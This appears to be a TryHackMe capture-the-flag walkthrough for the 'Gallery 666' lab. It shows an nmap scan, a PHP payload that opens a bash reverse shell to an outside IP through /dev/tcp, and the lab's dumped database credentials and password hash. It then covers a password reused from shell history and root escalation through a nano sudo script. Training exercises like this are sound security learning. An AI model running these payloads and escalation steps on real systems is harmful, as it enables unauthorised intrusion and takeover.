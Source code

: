 ```yaml
---

title: Walkthrough - Gallery 666
published: true
---
```


CMS, Linux, SQLi, RCE. Try to exploit our image gallery system

[https://tryhackme.com/room/gallery666](https://tryhackme.com/room/gallery666)

* * *

## Notes

```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Simple Image Gallery System
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%), Linux 3.7 - 3.10 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
```

* * * 

## How many ports are open?

- 2

* * * 

## What's the name of the CMS?

- Simple Image Gallery -  we can use ``/usr/share/exploitdb/exploits/php/webapps/50214.py`` to exploit
- edit the payload ``payload= "<?php exec(\"/bin/bash -c 'bash -i > /dev/tcp/10.2.127.225/7777 0>&1'\"); ?>"`` and setup a listener to receive a shell

* * * 

## What's the hash password of the admin user?

- ``cat /var/www/html/gallery/initialize.php``

```
cat initialize.php
<?php
$dev_data = array('id'=>'-1','firstname'=>'Developer','lastname'=>'','username'=>'dev_oretnom','password'=>'5da283a2d990e8d8512cf967df5bc0d0','last_login'=>'','date_updated'=>'','date_added'=>'');

if(!defined('base_url')) define('base_url',"http://" . $_SERVER['SERVER_ADDR'] . "/gallery/");
if(!defined('base_app')) define('base_app', str_replace('\\','/',__DIR__).'/' );
if(!defined('dev_data')) define('dev_data',$dev_data);
if(!defined('DB_SERVER')) define('DB_SERVER',"localhost");
if(!defined('DB_USERNAME')) define('DB_USERNAME',"gallery_user");
if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"passw0rd321");
if(!defined('DB_NAME')) define('DB_NAME',"gallery_db");
?>
```

- ``mysql -h localhost -p gallery_db -u gallery_user``
- ``show tables;``
- ``select * from users;``

* * * 

## What's the user flag?

- running linpeas.sh found something interesting

```
╔══════════╣ Searching passwords in history files
      @stats   = stats                                      
      @items   = { _seq_: 1  }
      @threads = { _seq_: "A" }
sudo -l b3stpassw0rdbr0xx
sudo -l
```

- use this to su to mike

* * * 

## Escalate to root

```
(remote) mike@gallery:/$ sudo -l
Matching Defaults entries for mike on gallery:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on gallery:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh
```

- ``cat /opt/rootkit.sh``
- this shell script when set to read runs nano as sudo so we can use it to get root. Run the script and "read" and then ``^R^X`` then ``reset; sh 1>&0 2>&0`` to get root

![0xskar](/assets/gallery66601.png)

* * * 
